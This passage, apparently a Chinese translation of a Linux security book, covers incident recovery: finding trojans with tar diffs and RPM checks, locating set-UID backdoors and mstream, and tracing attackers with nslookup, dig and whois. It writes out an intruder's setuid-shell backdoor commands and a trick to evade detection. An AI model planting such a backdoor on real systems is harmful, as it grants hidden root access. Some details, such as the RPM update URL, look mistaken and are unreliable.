如果他们需要在某处添加代码，他们可能会优化其他位置的现有代码。为了获得相同的校验和，他们只需修改某处未使用字符串中的字节，直到 `sum` 报告出与之前相同的值。研究 `sum` 的代码可以看出结果对文件的不同更改非常敏感。请注意，`md5sum` 程序不受那些“校验和”与原始程序匹配的木马程序的侵害。

使用 Tripwire 通过采用更复杂的校验和算法来避免这个问题。以这种方式欺骗 Tripwire 极其困难。此外，`md5sum` 程序的消息摘要（类似于校验和）非常难以破解。作者不知道有人成功做到过。

## 13.8 植入虚假数据

一旦入侵者控制了你的系统，他就可以读取任何文件、修改任何文件、创建任何新文件并删除任何文件，而你还毫不知情。即使你使用一种连国家安全局（NSA）都难以破解的强加密算法，并只在内存中允许未加密的敏感信息，他也只是简单地从内存中读取未加密的数据。这对于优秀的入侵者来说并不难做到。最好的入侵者在入侵过程中不会留下任何痕迹。

你的机密公司计划、客户详情、财务数据（包括银行卡号和密码）、订单、网页、简历、涉及法律事务的机密文件等，全部都可以被读取甚至被修改。这对你造成的潜在成本可能相当巨大。这就是为什么拥有一个难以渗透的防御体系非常重要，并且如果该体系被渗透，必须能够被快速检测到。此外，这也是为什么让入侵尝试触发系统管理员的寻呼机、远程日志记录以及制定好的详细行动计划如此有价值的原因。

通常，入侵者会探查已知的漏洞，直到发现一个为止。如果你通过检测此类探查行为先于她发现这一点，你就可以阻止她。

## 13.9 被篡改的监控程序


任何有才华的入侵者都会修改你的 `ps`、`ls`、`who` 以及其他你会使用的可信程序，以便这些程序不显示他的入侵活动。这并不罕见。建议你将这些基本程序的副本保存在一个隐秘的目录中，以便在发生此类事件时使用。

你要明白，你可能会陷入“镜屋”般的境地，无法分辨哪些程序、文件甚至内核系统调用是真实的，哪些是被入侵者篡改的。

入侵者可能已经篡改了 `sum` 或 `md5sum`，以至于你甚至无法确定你的 `ls` 备份副本真的是未被触碰的。理论上，`mount` 和内核也可能被篡改，以至于即使你使用可信工具挂载只读软盘，你可能也无法信任这些工具。在 root 可能已被攻陷的系统中使用任何现有程序，应仅限于尝试检测当前可能正在运行的入侵者工具。这样做唯一的理由是，磁盘上可能没有正在运行的可执行文件的副本。有关此问题的详细信息，请参阅第 465 页的“重新获得系统的控制权”。

## 13.10 困在镜屋之中

很明显，在一个被攻陷的系统中，你不知道什么是真实的，什么是虚假的。你甚至不能插入一个可信的启动软盘并输入 `reboot` 命令来启动它，因为 `reboot` 命令可能是假的，是入侵者安装的，实际上它重新启动的是被攻陷的系统。输入 `sync` 命令并按下复位键是更可靠的做法。

确保你拥有安全的启动软盘，或者有其他安全的方式来启动此系统或启动另一个 Linux 系统。最好是在你创建系统时（或在你确定系统安全时）制作这些安全启动软盘，并将它们保存在物理安全区域并加上写保护。

现在关闭系统。方法越简单越好。记住，入侵者可能已经修改了关机过程，以便在系统关机时隐藏其踪迹。最好的做法可能是让系统空闲五分钟（允许 `init` 执行其周期性的 `sync()`），然后按住复位键。在按住复位键的同时，关闭电源。将系统与所有它可能仍然连接的网络和调制解调器断开连接。

## 13.11 重新获得控制权

重新获得控制权的最好方法是从被攻陷的系统中移除系统磁盘，并将其作为第二块磁盘连接到已知安全的系统。然后启动安全系统（从其磁盘），并在某处挂载被攻陷的磁盘。通常，我会执行以下操作：

```bash
mkdir /mnt2; chmod 755 /mnt2
```

然后通过以下方式挂载到 `/mnt2`：

```bash
mount /dev/hdb1 /mnt2
```

或等效命令。第二块 SCSI 磁盘的第一个分区通常是 `/dev/sdb1`。你的 root 分区可能不是分区 1，也可能是救援软盘。

或者，如果你的被攻陷系统通过 CMOS 设置为首先尝试从软盘或 CD-ROM 启动，插入你的安全启动软盘或 CD-ROM（技术上是启动软盘，然后是根文件系统软盘），并开机。如果它被设置为从硬盘启动，请修改 CMOS 设置并重新启动。

某些计算机的 CMOS（启动 ROM）可以在系统*运行*时重新编程（*刷写*）。这种可能性非常难以检测和恢复，但发生的可能性很低。如果你怀疑这种情况，请重新刷写 CMOS 并重启。此时，你拥有一个非常精简（基于软盘）但可信的系统在运行。

### 13.12 查找被入侵者篡改的文件

现在，是时候分析你的文件系统，查找由入侵者安装的差异了。首先，在被攻陷的文件系统上运行 `fsck`，因为你突然关闭了系统，而且存在入侵者意外或故意损坏它的可能性。作者发现 `tar` 备份对于大多数应用程序来说都非常出色。当然，如果你对正在运行的数据库进行备份，你使用的是数据库包的一部分软件，你必须查阅其文档。这些程序中的一些可能生成普通文件，然后你可以使用 `tar` 或等效工具进行备份。

本节其余部分假设已经对你的系统进行了 GNU `tar` 备份。如果你使用不同的备份方案，请参见该产品的文档以了解如何比较磁带和磁盘；并非所有产品都提供有用的方法来完成此操作。如果你拥有 `tar` 格式的备份，你可以使用 GNU `tar` 的 `-d` 功能来显示磁带备份和磁盘之间的差异。假设你通过以下方式创建了磁带：

```bash
cd /
tar -cf /dev/rmt0 .
```

或类似命令，并且被攻陷的文件系统现在已挂载在可信系统的 `/mnt2` 上。

务必将备份媒体设置为只读，以免你在给 `tar` 传递错误标志时意外覆盖它。记住很重要的一点是，入侵者可能早已控制了你的系统，而最近的备份可能已被攻陷，因此你也可能希望将磁盘与较旧的备份进行比较。

许多入侵者会将他们的木马程序放置在那里，root 可能会偶然执行它们。`/tmp`、`/.`、`/root`、`/usr/tmp` 和 `/var/tmp` 就是这样一些地方，所以执行以下命令：

```bash
/bin/ls -Pa /mnt2/tmp /mnt2 /mnt2/root \
           /mnt2/usr/tmp /mnt2/var/tmp
```

来查找任何木马程序。

确保“.”不在你的 `$PATH` 搜索路径中，或者至少位于你的 `$PATH` 搜索路径的末尾。这可以防止入侵者在 `/tmp` 中放置特洛伊木马（可能名为 `/tmp/ls` 或 `/tmp/rm`），并等待你执行 `cd /tmp` 并调用诸如 `ls` 或 `rm`（例如用于清理 `/tmp`）之类的常见程序。这将导致该特洛伊木马以 root 身份被调用。将此类特洛伊木马重命名为更显眼的名称，例如：

```
mv /mnt2/tmp/ls /mnt2/tmp/lsCRACKED
```

或者

```
mv /mnt2/bin/tar /mnt2/bin/tarCRACKED
```

并使用 `chmod` 将其权限设置为 `0`，使其无法执行。

`tar -d` 标志用于让 tar 记录磁带备份与磁盘上相应文件之间的差异。此 `-d` 标志替代了创建磁带的 `-c` 标志或从磁带提取文件的 `-x` 标志。其他 `tar` 修饰符，如用于详细输出的 `-v` 或用于指定磁带设备的 `-f`，也可以一起使用。

如果你的 tar 备份位于 `/dev/rmt0`（原始磁带编号 0），且受损的文件系统挂载为 `/mnt2`，请从 `csh` 中执行以下操作：

```
cd /mnt2
touch scanned
sleep 2
/bin/tar -df /dev/rmt0 . >&! diffs
```

或从 `sh` (bash) 中执行以下操作：

```
cd /mnt2
touch scanned
sleep 2
/bin/tar -df /dev/rmt0 . > diffs 2>&1
```

尽管 `diffs` 文件将位于受损的文件系统上，但该可能受损的文件系统上只有现有数据是受损的；由你信任的内核使用受信任的工具（来自受信任的启动软盘）创建的所有新数据都是可信的。你将 `diffs` 文件放在这里是因为如果你从软盘启动，启动过程中创建的 RAM 磁盘将几乎没有剩余空间。（请注意，这种特洛伊木马扫描技术可以在没有额外硬件且不依赖可能已受损的系统常规 root 文件系统的情况下完成。）

在 `diffs` 文件中，将包含磁带上所有磁盘副本存在差异或缺失的文件的对话。预计在 `/tmp`、`/usr/tmp`、`/var/tmp`、`/var/spool/mail`、用户目录、`/home/*/.netscape` 等位置会有大量差异。虽然你应该预期一些文件会被删除（从磁盘副本中），但你需要检查权限变更和内容差异，这些可能是特洛伊木马。这些被删除文件中的一些可能是破解者的行为；你需要通过研究备份、与用户交流等来确定这一点。

`/bin`、`/sbin`、`etc` 中不应有任何差异。你应该预期在 `/etc/passwd`、`/etc/group`、`/etc/shadow`（如果使用）、`/etc/hosts`、`/etc/sendmail.cf`、`etc` 中存在差异。必须通过将这些文件从磁带提取到其他地方，并使用 `diff` 程序与最新的“磁盘”版本进行比较，来非常仔细地检查这些差异。

请记住，目前你的当前工作目录是 `/mnt2`。发出以下命令以提取 `/etc` 和 `/var/spool/mail` 中文件的“磁带”版本：

```
mkdir tape
chmod 755 tape
cd tape
/bin/tar -xf /dev/rmt0 etc var/spool/mail
```

这些文件中的每一个都可以通过以下方式进行篡改检查：

```
diff etc/passwd ../etc     | more
diff etc/group ../etc      | more
diff etc/shadow ../etc     | more
diff etc/hosts ../etc      | more
diff etc/sendmail.cf ../etc | more
```

#### 13.12.1 解释 `tar -d` 的输出

在上一章中，你探索了如何获取自磁带备份以来已更改或已被删除的磁盘文件列表。这里讨论的是 `tar -d` 命令的解释。典型的输出可能包括：


```
/bin/date: Mode differs
/bin/ls: Uid differs
/bin/su: Mod time differs
/bin/su: Size differs
/dev/hdb7: Device numbers changed
/dev/null: Device numbers changed
/dev/tty: Mode or device-type changed
/lib/libc.so.6: Symlink differs
```

如你所见，`GNU tar` 将检测到文件的任何更改，包括内容、修改时间（磁带上存储的唯一时间戳）、权限位、文件类型、UID 或 GID。不幸的是，`GNU tar` 不会告诉你具体改变了什么，因此你需要发出 `ls` 命令，从磁带提取文件并对某些文件运行 `diff` 命令，通常这会使你浪费很多时间。

我建议你修改 `GNU tar`（开源是很棒的），使新标志能够列出 inode 数据（UID、GID、时间、权限、类型）中的差异。可以添加 `-e` 扩展，使有差异的文件从磁带提取，并在名称后附加扩展名（如果该文件在磁盘上也存在，则重复）。

你使用 `touch scanned` 命令标记了开始读取这些文件的时间，并使用 `sleep 2` 命令等待了一秒以上。现在你使用 `find` 命令通过以下命令查找自该时间以来未被读取的所有文件。（请注意，为了使访问时间更新，调用 `tar -d` 命令时，`/mnt2` 文件系统不能以只读方式挂载。）

发出 `csh` 命令：

```
cd /mnt2
find . ! -anewer scanned -print >>!&1 added
```

或 `sh` 命令

```
cd /mnt2
find . ! -anewer scanned -print > added 2>&1
```

现在你可以执行

```
more diffs added
```

来研究破解者做了什么。

破解者可以在系统上的任何位置隐藏他们的文件，但 `/dev` 是一个受欢迎的地方。由于那里通常应该只有设备和目录，以及普通文件 `MAKEDEV*` 以及在某些发行版中的 `README*`，因此在那些位置很容易找到它们。可以使用以下命令非常高效地在那里找到破解者的文件：

```
find /dev -type f -ls
```

此 `find` 命令可以放入 root 的 `crontab` 中每天执行，以检测是否有任何破解者在那里安装他们的文件。为了避免被应该存在的文件打扰，让 `find` 不报告预期文件。由于 `crontab` 条目的输出会自动发送到该账户的电子邮件，因此不需要将输出管道传输到邮件发送器。以下命令适用于 Red Hat 和许多其他发行版：

```
find /dev -type f ! -name MAKEDEV -ls -exec file '{}' ';'
```

### 13.12.2 使用 RPM 加速检查

`RPM`，即 Red Hat 的软件包管理器，可用于验证所有由 Red Hat 软件包创建的文件。它使用一个数据库，存储每个软件包中每个文件的所有权、权限和 MD5 校验和。它是一个独立的程序，这允许即使在任何可能已受损的系统中进行此检查。这是因为只需要检查少量文件的有效性。假设你从救援磁盘启动，它们包含 `md5sum` 程序，并且我们常规的 root 文件系统挂载为 `/mnt2`。

请注意，由于救援 root 文件系统是*复制*到创建的 RAMDISK 中，

```
mkdir /mnt2
```

命令或应用于 RAMDISK 的任何其他命令都不会在重启后保留。`RPM` 的 `-Va` 标志将使其基于其数据库验证所有已安装软件包的正确性。首先，你需要验证 `rpm` 程序本身及其数据库。从你的救援磁盘开始，以下命令将生成这些文件的 MD5 校验和，这些校验和可以与从备份确定（或你之前写下的）正确值进行比较：

```
md5sum /mnt2/bin/rpm /mnt2/var/lib/rpm/*
```

一个更精密的解决方案是将校验和存储在文件中，并使用 `md5sum -c` 自动比较此文件中存储的校验和与磁盘上目标文件的校验和。可以使用此命令完成：

```
md5sum -c /rpm.md5
```

如果你准备得特别充分，你会有一个包含此文件的 tar 格式软盘。如果是这样，将软盘插入驱动器并发出命令

```
tar -xvf /dev/fd0 /rpm.md5
```

如果你没有在受损之前生成这些校验和，请恢复 `bin/rpm` 和 `var/lib/rpm/*` 并生成校验和。

既然你已经证明 `rpm` 程序及其数据库是可信的，从操作的救援磁盘，发出以下命令以验证你的系统：

```
/mnt2/bin/rpm -Va --root /mnt2
```

当然，许多配置文件已经更改，因此你需要目视检查它们或将它们与你的备份进行“diff”。你可能希望将 `rpm` 的输出保存到 RAMDISK 或软盘驱动器中，以便进行更仔细的分析。

### 13.12.3 RPM 修复

修复（恢复）受损的软件包可能很简单，只需使用 `rpm` 的 `-F` 标志来“刷新”磁盘上的软件包版本。在前一节示例中，你从救援磁盘软盘启动，并将受损的硬盘 root 文件系统挂载在 `/mnt2` 上。然后如果你插入发行版 CD-ROM 并将其挂载在 `/mnt/cdrom` 上，以下命令将修复任何由破解者引起的软件包损坏：

```
/mnt2/bin/rpm -Fa --root /mnt2 /mnt/cdrom/RedHat/RPMS/*.rpm
```

您需要手动修复任何损坏的配置文件，因为 RPM 通常不会更改现有的文件。RPM 这样做的目的是为了不撤销您对配置文件的正常更改。此调用还可以用于通过网络从发行版提供商处更新存在缺陷的软件包，特别是那些存在安全漏洞的软件包。要通过网络安装软件包，只需提供一个指定所需 RPM 的 URL，该 URL 可以是 http 风格或 ftp 风格的 URL。

例如，如果您拥有 Red Hat 安装环境，并希望升级您的 named 程序（BIND）以修复那个安全漏洞，以下命令可以一步完成此事：

```
rpm -vhU \
    ftp://updates.redhat.com/9.7/1386/bind-12.2.2.i386.rpm
```

如果您正在重新安装系统上已安装的相同版本的软件包，但该版本已损坏（可能是由于破解者安装的木马所致），您需要在常规标志后添加 `--force` 标志。这是因为 RPM 足够智能，不会重新安装已安装的相同版本的软件包。因此，如果破解者随后通过其他途径入侵，并覆盖您的安全版本 named 为更早的不安全版本，您将发出以下命令：

```
rpm -vhU --force \
    ftp://updates.redhat.com/9.7/1386/bind-12.2.2.i386.rpm
```

### 13.12.4 恢复数据库

从系统管理员的角度来看，数据库是随时间频繁变化的大型二进制文件。Linux 上的大多数其他文件要么是不随时间变化的程序，要么是可以通过 `diff` 轻松检查其内容并与先前版本进行比较的 ASCII 文本文件。对于 web 商务站点以及其他数据库可能被破解者攻击的系统，需要做好预先准备。一项有价值的技术是使用审计追踪。经过准备，您，或者希望是数据库管理员，可以从数据库的已知“良好”配置开始。

数据库的审计追踪需要针对破解者的交易进行分析。您应重点关注可疑入侵时间前后审计追踪的部分。寻找可疑条目，例如地址变更或与前不同的购买模式。搜索新账户和最近的地址变更会有帮助。

这些交易应暂停以等待调查，这可能包括给客户打电话或发送电子邮件。清理审计追踪后，一种恢复方法是将审计追踪的有效交易应用于已知的“良好”数据库。在繁忙的站点上，这需要大量工作，因此您可能希望联系公司内部涉及订购的其他人员。

要明白数据库只是另一个文件，破解者可以更改交易时间并混淆其行为，包括直接修改二进制数据库文件。您的数据库管理员可能希望将当前数据库“卸载”到 ASCII 文件中，并对恢复的已知“良好”版本执行相同操作，然后让您在这些文件之间运行 diff，以寻找破解者的痕迹。

在发生损坏的情况下，数据库管理员可能需要将当前数据库（或最近的备份）“卸载”到 ASCII 文件中。然后，他可能需要纠正错误的条目，并从零开始“加载”数据库。在完整备份之后，您可能希望让一位数据库管理员通过添加错误条目或实际破坏数据库（以无害的方式更改某些数据的大小写）来修改数据库。您将希望确保有充足的资源来执行此卸载/分析/加载过程，特别是磁盘空间。

### 13.12.5 外设损坏

请注意，连接到受入侵系统的任何外设都可能被篡改。这包括驱动器或磁带库中用于备份的任何磁带、驱动器中可能用于“安全”启动的任何可写软盘，以及刻录机中的 CD-RW 光盘。


如果打印机中有银行支票表格，其中可能包含虚假信息。显然，您的系统可能已向破解者的虚假公司打印了总计数千或数百万美元的支票。在这种情况下，关闭相关的银行账户、停止外发邮件并联系邮局可能是必要的。如果您能确定哪些支票号码可能可疑，对这些支票发起“止付”可能足以解决问题，但这比关闭账户风险更大。如果破解者知道您的账户号码和银行名称，他可以在自己的系统上打印虚假银行支票。这本身就是一个关闭相关银行账户的理由！

如果打印机中有采购订单表格，破解者可能已经生成了采购订单，商品发货地址为破解者的邮政信箱或代收点。

### 13.12.6 通过恶意电子手段窃取

破解者甚至可能通过电子邮件或 web 从您的系统中下了虚假订单。他可能使用了在您的系统上发现的信用卡号，无论是您的公司卡号（可能在电子邮件中发现）还是您客户的卡号。信用卡号的窃取是一桩大生意。最近，由于 AOL 安全漏洞，AOL 的数千名客户、CD Universe 的 30 多万名客户（由于其 Microsoft Web 服务器软件的 bug）以及太平洋电话公司的数千名客户都发生了备受瞩目的信用卡号窃取事件。

破解者可能仅仅依靠您公司的良好信用。他可能在您的系统上启动了一个 web 浏览器，其 `DISPLAY` 环境变量指向他的系统。一旦您的系统被入侵，机会和方法是无限的。

### 13.12.7 内核如何受损

除了对文件系统的破坏外，破解者还可以修改运行中内核中的数据。这可能包括运行进程的系统 IP 地址、网络路由、`UID` 等，以及正在运行哪些进程。如果破解者已将自己设为 `root`，修改其中大多数事项都很简单。这些更改可以允许拒绝服务攻击，并可以控制您的系统信任哪些其他系统。例如，修改正在运行的 NFS 服务器可以允许破解者的系统完全控制您的整个文件系统。

一个非常老练的破解者可以修改系统以运行“秘密”进程，而 `ps` 命令不会显示这些进程。这可以通过对内核或 `ps` 进行简单修改来实现。他的其中一个进程可能正在监听一个通常未使用的端口以接收更多破解指令。

## 13.13 封堵漏洞

既然您已确定破解者添加、删除和更改了哪些内容，您可以使用备份或安装 CD-ROM 撤销这些更改以修复损坏。再次强调，您需要首先禁用破解者篡改过的任何程序，以免意外调用它们并制造更多漏洞。

在研究 diff 和新增文件后，您需要决定恢复哪些文件。在上一个示例中，`/bin` 中的几个程序、`/dev` 中的几个设备文件以及一个库文件被修改了。请记住，您当前的工作目录是 `/mnt2`。以下命令将恢复系统：

```
/bin/rm -f \
bin/date bin/ls bin/su dev/hdb7 \
dev/null dev/tty lib/libc.so.6
/bin/tar -xf /dev/rmt0 \
bin/date bin/ls bin/su dev/hdb7 \
dev/null dev/tty lib/libc.so.6
```

另一个 `tar -d` 和 `find` 序列可能值得执行，以确保没有遗漏任何内容。在此之后，移除软盘，进行正常重启，您就可以恢复正常业务了。

### 13.13.1 受损数据的踪迹

那机密数据呢？除非您能证明相反的情况，否则您必须假设破解者查看、记录并修改了他的入侵级别所允许访问的所有机密数据。如果获取了 `root` 访问权限，那就意味着所有数据。显然，必须更改密码，且之前的密码永远不要再使用。您的每个用户也必须被告知，如果他的密码也用于其他系统，则其他系统也需要更改密码。您还必须调查这些其他系统，以防它们

入侵者还攻破了其他系统，使用的是从原始系统中泄露的密码或其他被窃数据。

> 在我伯克利大学读书的时候，有一个早期且实验性的 UNIX 网络功能，它是 `rsh` 的前身，要求将远程系统的密码以明文形式存储。没错。有人攻破了计算机中心的一个 UNIX 系统，我必须假定这个密码已经被泄露了。尽管这是肯·汤普森（Ken Thompson）都无法破解且容易记住的密码，但我至今仍未再使用它！

你应当假定其他所有数据均已泄露，并采取适当的应对措施。这包括任何客户和供应商数据，例如信用卡号。多种技术均可利用这些信息实施盗窃。其中一种常见的方式依赖于犯罪分子拥有足够的信息，以便让受害者相信他确实是其所声称的身份。“你好，我是 Pentacorp 公司的，我们不小心删除了您 9 月 29 日订购的 100 个部件的信用卡号副本，该订单将寄送到 123 枫树街。如果您现在提供给我，我们今天就可以发货。”尽管你保护着客户的信用卡号，但这个小偷还是获取了数据，并将账单扣款到了你的客户卡片上。

未能发出通知会带来法律责任问题。公开报道还有其他影响。最好在数据泄露发生前就有一份已获批准的书面计划，因为你希望迅速行动，并且不想在战事正酣时因采取错误行动而成为替罪羊。

### 13.14 查找 set-UID 程序

许多黑客会留下后门，以便他们能更轻松地再次进入你的系统。最缺乏技术含量且最容易被检测到的方式是留下一个 set-UID 程序。这只是一个由 `root` 拥有并设置了 set-UID 位的程序。一个以 `root` 身份操作的黑客可以在 10 秒内通过以下方式完成：

```
cp /bin/sh /tmp/.foo
chmod 4755 /tmp/.foo
```

这是一种有效策略吗？你最近一次扫描 set-UID 程序是什么时候？你可以（并且应该）通过一个简单的比较命令来检测是否发生了这种情况：

```
ls -l /bin/sh /tmp/.foo
cmp /bin/sh /tmp/.foo
```

黑客可以通过添加以下命令来防止这种检测：

```
date >> /tmp/.foo
```

这会改变文件的大小，从而无法明显看出他们复制了 `sh`。`cmp` 程序会指示其中一个文件是否与其他文件的前部完全相同。尽管如此，你仍然需要知道要与哪个文件进行比较，这相当于一种猜测游戏。他们只需编写自己的程序来执行 shell，就可以避免这种检测；这将与你现有的任何程序都完全不同。他们还可以将特洛伊木马安装到现有程序中。

要查找 set-UID 和 set-GUID 程序，请执行以下命令：

```
find / -perm +6000 -print
```

### 13.15 查找 mstream 特洛伊木马

以下 `find` 命令将查找可能是 mstream DDoS 特洛伊木马的可执行文件候选项：

```
find / ! -fstype proc -type f -print | xargs grep -l newserver
```

这可能会在 `/usr/bin/xchat` 上产生误报。对于疑似二进制文件，以下内容将列出每个极有可能是 mstream 的文件名称，如果它是 mstream 主控制器或僵尸进程：

```
strings file | grep -l pong
```

## 第 14 章

## 查找攻击者的系统

现在，在你已经对自己被黑客入侵的怀疑采取了行动，并采取了措施阻止黑客立即重新进入系统、修复了损坏并封堵了漏洞之后，是时候找到你的黑客的系统及其习惯了。

本章涵盖的主题包括：

- “使用 nslookup 追踪数值 IP 地址”，见第 501 页
- “使用 dig 追踪数值 IP 地址”，见第 502 页
- “谁是个共产主义者：查找 .com 拥有者”，见第 502 页
- “直接从 IP 地址查找实体”，见第 504 页
- “查找 G-Man：查询 .gov 系统”，见第 504 页
- “使用 ping”，见第 506 页
- “使用 traceroute”，见第 507 页
- “邻近系统的结果”，见第 508 页
- “近期对一名黑客的国际追踪”，见第 508 页
- “确保你找到了攻击者”，见第 508 页
- “其他系统管理员：他们关心吗？”，见第 511 页

### 14.1 使用 nslookup 追踪数值 IP 地址

通常，关于入侵的系统日志和其他信息只能揭示入侵者所使用的系统的数值 IP（互联网协议）地址。（此外，它们还可能显示系统名称和用户名。）幸运的是，查询该系统的信息很容易。要获取数值地址 `b1.b2.b3.b4` 的完全限定主机名，请执行以下命令：

```
nslookup -type=any b4.b3.b2.b1.in-addr.arpa
```

注意，IP 地址的字节顺序必须反转。假设日志显示入侵者的 IP 地址是 `192.9.25.4`。反转字节顺序得到 `4.25.9.192`。然后执行以下命令：

```
nslookup -type=any 4.25.9.192.in-addr.arpa
```

你将看到类似以下的输出：

```
Server:    mindspring.com
Address:   207.69.200.201

4.25.9.192.in-addr.arpa  name  = pluto.Sun.COM
```

`.COM` 左侧的名称是域名，即 Sun。

### 14.2 使用 dig 追踪数值 IP 地址

虽然 `nslookup` 可以提供系统名称和相关信息的查询，但这需要输入大量内容，而且编写脚本反转字节顺序会很麻烦。`dig` 命令通过使用 `-x` 标志可以更轻松地做到这一点。请尝试以下操作：


```
dig -x 192.9.25.4
```

响应中有用的部分如下：

```
;; ANSWERS:
4.25.9.192.in-addr.arpa.   86400   PTR   pluto.Sun.COM.
```

### 14.3 谁是个共产主义者：查找 .com 拥有者

要查询 Sun 的域名，请让你的 Web 浏览器访问：

```
http://www.networksolutions.com/cgi-bin/whois/whois/
```

并提供以下内容进行搜索：

```
sun.com
```

或

```
!sun
```

你可以省略一个步骤（因为这是一个 CGI 程序），通过以下方式将所需的域名包含在 URL 中：

```
www.networksolutions.com/cgi-bin/whois/whois?sun.com
```

感叹号 `"!"` 表示你希望仅查询 `sun.com`，而不是其他仅包含 `sun` 的名称。如果 `sun.com` 没有产生所需的结果，请使用 `!sun` 形式。这将产生类似以下的结果：

```
Sun Microsystems Inc. (SUN)

2550 Garcia Avenue
Building 1, Room 235
Mountain View, CA 94043

Hostname: SUN.COM
Address: 192.9.9.1
System: SUN-3/160 running SUNOS

Coordinator:
Lowe, Fredrick (FL59) Fred.Lowe@EBAY.SUN.COM
408-276-4199
domain server

Record last updated on 17-Jun-98.
Database last updated on 8-Aug-99 03:53:54 EDT.
```

现在，你拥有了实体名称、邮政地址、联系人，甚至电话号码和电子邮件地址。数据可能相当陈旧；此人可能正在休假。如果这是一个大型实体，语音留言可能提供了关于部门的线索，甚至可能提供了一种联系秘书或其他人的方法，以便在指定人员不可用或离职时连接正确的人。

在大型组织中，你在追踪此入侵时可能会遇到许多“我不知道”或缺乏兴趣的情况。请记住，这是一个紧急情况，并且可能已经使用该公司的设备实施了犯罪。你可以请求计算机安全部、计算机运营部或 MIS 部门。请注意，许多公司怀疑猎头试图窃取他们的人才，因此如有必要，请解释你是谁以及你为什么打电话。如果其他方法都无效，你可以请求他们的人力资源部，询问他所在的部门或曾经工作的部门，或其经理的名字。

> 如果没人愿意与你交谈，你可以建议引入警察作为替代方案。没有人希望他们的受损系统受到公开报道！

### 14.4 直接从 IP 地址查找实体

另一种用于查询美国地址的数值 IP 地址的服务，以查找拥有实体、邮政地址、联系人及其电话号码（代替之前两个步骤），是：

```
www.arin.net/whois/arinwhois.html
```

对于欧洲实体，请尝试：

```
www.ripe.net/db/whois.html
```

对于远东和太平洋地区实体，请尝试：

```
www.apnic.net/apnic-bin/whois.pl
```

### 14.5 查找 G-Man：查询 .gov 系统

如果主机名以 `.gov` 结尾，则该网站由美国政府或美国原住民部落政府拥有，并且可以使用以下站点进行查询：

```
www.nic.gov/whois.html
```

与用于 Network Solutions 的 `.com` 查询的 `iSun` 不同，你需要输入包含 `.gov` 的域名。

假设日志显示你的系统被一个数值 IP 为 `204.108.10.231` 的系统违规访问。然后你执行以下命令：

```
nslookup -type=any 231.10.108.204.in-addr.arpa
```

并看到：

```
Server:	 mindspring.com
Address:	 207.69.200.201

Non-authoritative answer:
231.10.108.204.in-addr.arpa	 name = www.faa.gov

Authoritative answers can be found from:
10.108.204.IN-ADDR.ARPA nameserver = NSB.faa.gov
10.108.204.IN-ADDR.ARPA nameserver = LABYRINTH.faa.gov
10.108.204.IN-ADDR.ARPA nameserver = ENIGMA.faa.gov
LABYRINTH.faa.gov		 internet address = 207.104.92.2
ENIGMA.faa.gov		 internet address = 204.108.10.2
```

最有可能的是，某黑客违反了联邦航空管理局（Federal Aviation Administration）的规定。非权威性答案仅仅意味着一台名称服务器（无论是 MindSpring 的还是其上游的某台）缓存了该 IP 到域名的记录，并且使用了该缓存记录，而非使用官方的 `.gov` 顶级名称服务器。

向政府查询服务提供 `faa.gov` 的值，你应该能看到

```
Whois Search Results:
[Registration]
Federal Aviation Administration (FAA-DOM)
800 Independence Ave. SW
Washington, DC 20591

[About GSA]
Domain Name: FAA.GOV
Status: ACTIVE
Domain Type: Federal

Technical Contact:
Coronel, Gus X. (GXC)
(202) 267-7828
GUS.CTR.CORONEL@FAA.GOV

Administrative Contact:
Hayes, Alan (AH3)
(202) 267-7357
ALAN.HAYES@FAA.DOT.GOV

Domain servers in listed order:

ENIGMA.FAA.GOV 204.108.10.2
LABYRINTH.FAA.GOV 207.104.92.2
CHASSIS7.TGF.TC.FAA.GOV 155.178.206.153

Record last updated on 12-Apr-99.
```

技术联系人是你应该联系的对象。

要追踪美国军事地址请使用

```
www.nic.mil/
```

请记住，该系统很可能已经失守，因此打电话或发送隔夜邮政信件比电子邮件更好，因为电子邮件可能会被黑客阅读并删除。电子邮件的作用仅仅是提醒黑客你正在追查他。系统管理员成为黑客的情况并不常见。

## 14.6 使用 ping

`ping` 程序对于确定某个节点是否在线以及是否连接在互联网上非常有用，例如黑客所在的节点。这也有助于查看你是否被分配了一个虚假的 IP 地址。（当然，该 IP 地址可能是某个与入侵无关的有效节点的。）你可能希望从一个不同的域中的不同系统（例如，如果你正在调查工作系统的问题，可以从家里的系统）使用 `ping`。这将降低你向黑客“露出马脚”的可能性。当然，如果你的工作系统中包含指向你家庭系统的引用，例如在你的 `.rhosts` 文件或电子邮件中，这可能无济于事，你的家庭系统现在也可能已经失守。

`ping` 程序使用 `ICMP`。大多数系统都会对此做出响应，并且不会记录谁在对它们进行 `ping`。然而，许多防火墙会阻止 `ICMP`，因为它是一种黑客技术。在这种情况下，请使用 `traceroute`。你和你面临的黑客都可以使用 `ping`。

> 发送到你的系统的 Ping 可以被 `PingLogger` 检测和记录，该软件可从 CD-ROM 以及以下地址获取：
>
> `ftp://sunsite.org.uk/Mirrors/contrib.redhat.com`
>
> `/libc6/SRPMS/pinglogger-1.1-2.src.rpm`

你可以使用 `ping` 有两种特别有创意的技巧。第一种是查看往返时间（round trip time）。这将让你了解黑客距离你有多远，以及他正在使用什么类型的网络。这里使用 `ping` 给出的往返时间。（你需要将 `ping` 给出的时间除以二才能得到单程时间。）

1 到 10 毫秒（`ms`）范围内的时间可能是在你的局域网（local area network）上。高达 120 毫秒的时间可能是在美国的其他地方（假设你在那里并且你在 T1 线上）。通常 140 到 200 毫秒之间的时间是通过 PPP 连接到同一大陆的某处。

我看到到英国的 `ping` 时间为 110 毫秒，到欧洲大陆为 130 到 250 毫秒，到日本为 250 到 350 毫秒，到以色列为 175 到 400 毫秒，到新西兰为 300 毫秒及以上，到澳大利亚为 470 毫秒及以上。这些计时是在亚特兰大深夜通过 UUNet 提供的 T1 线路测得的，代表“最佳情况”下的结果。


通过使用 `traceroute` 记录黑客系统与其相邻系统之间的传输时间，你可以确定她是否在 PPP 连接、以太网连接或两者之间的某种连接上。如果传输时间表明是 PPP 连接，她很可能是在由 ISP 或其公司托管的家庭系统上，或者她可能正在使用一个被盗账户。

你可以确定的第二种有用信息是她的操作时间。大多数自由黑客通常在深夜工作，一方面是因为你不太可能在系统上注意到他们，另一方面是因为他们白天要上学或工作。如果她只在白天登录，她使用的就是一个工作账户。

请尝试确定她所在位置的时区，并确定那里的白天和夜晚时间。包括加利福尼亚在内的美国西海岸比东海岸晚三个小时，不列颠群岛比东海岸早五个小时，西欧比美国东海岸早六个小时。可以使用 URL `www.cavu.com/sunset.html` 来确定地球上几乎任何地方的时区。

## 14.7 使用 traceroute

